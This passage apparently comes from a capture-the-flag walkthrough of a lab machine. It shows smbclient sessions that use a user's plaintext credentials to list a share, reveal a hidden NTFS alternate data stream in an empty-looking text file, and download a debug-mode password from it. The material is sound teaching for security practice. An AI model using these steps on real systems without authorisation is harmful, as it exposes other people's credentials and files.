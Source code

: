     :::text
    smb: \C.Smith\> cd "HQK Reporting\"
    smb: \C.Smith\HQK Reporting\> dir
      .                                   D        0  Thu Aug  8 19:06:17 2019
      ..                                  D        0  Thu Aug  8 19:06:17 2019
      AD Integration Module               D        0  Fri Aug  9 08:18:42 2019
      Debug Mode Password.txt             A        0  Thu Aug  8 19:08:17 2019
      HQK_Config_Backup.xml               A      249  Thu Aug  8 19:09:05 2019

                10485247 blocks of size 4096. 6449598 blocks available

## Alternate data streams

The file seems to be empty because its author used the [NTFS alternate data
streams](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/).

It is possible to get the information about the [alternate data steams for a file
using smbclient](https://superuser.com/questions/1520250/read-alternate-data-streams-over-smb-with-linux).

We require the informations about the file in C.Smith folder and we download the
file using the alternate data stream.

    :::text
    root@kalili:~# smbclient //10.10.10.178/Users -U "c.smith"%"xRxRxPANCAK3SxRxRx" -c 'allinfo "C.Smith\HQK Reporting\Debug Mode Password.txt"'
    altname: DEBUGM~1.TXT
    create_time:    Thu Aug  8 07:06:12 PM 2019 EDT
    access_time:    Thu Aug  8 07:06:12 PM 2019 EDT
    write_time:     Thu Aug  8 07:08:17 PM 2019 EDT
    change_time:    Thu Aug  8 07:08:17 PM 2019 EDT
    attributes: A (20)
    stream: [::$DATA], 0 bytes
    stream: [:Password:$DATA], 15 bytes
    root@kalili:~# smbclient //10.10.10.178/Users -U "c.smith"%"xRxRxPANCAK3SxRxRx" -c 'get "C.Smith\HQK Reporting\Debug Mode Password.txt:Password:$DATA"
    > '
    getting file \C.Smith\HQK Reporting\Debug Mode Password.txt:Password:$DATA of size 15 as C.Smith\HQK Reporting\Debug Mode Password.txt:Password:$DATA (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)

The file is not empty anymore and contain the password for the DEBUG mode of the HQK service.

    :::text
    root@kalili:~# cat C.Smith\\HQK\ Reporting\\Debug\ Mode\ Password.txt\:Password\:\$DATA
    WBQ201953D8w

## HqkLdap.exe

We enumerate the folder more and we found a HqkLdap.exe binary. We download it
on our system.

    :::text
    smb: \C.Smith\HQK Reporting\> cd "AD Integration Module
    smb: \C.Smith\HQK Reporting\AD Integration Module\> dir
      .                                   D        0  Fri Aug  9 08:18:42 2019
      ..                                  D        0  Fri Aug  9 08:18:42 2019
      HqkLdap.exe                         A    17408  Wed Aug  7 19:41:16 2019

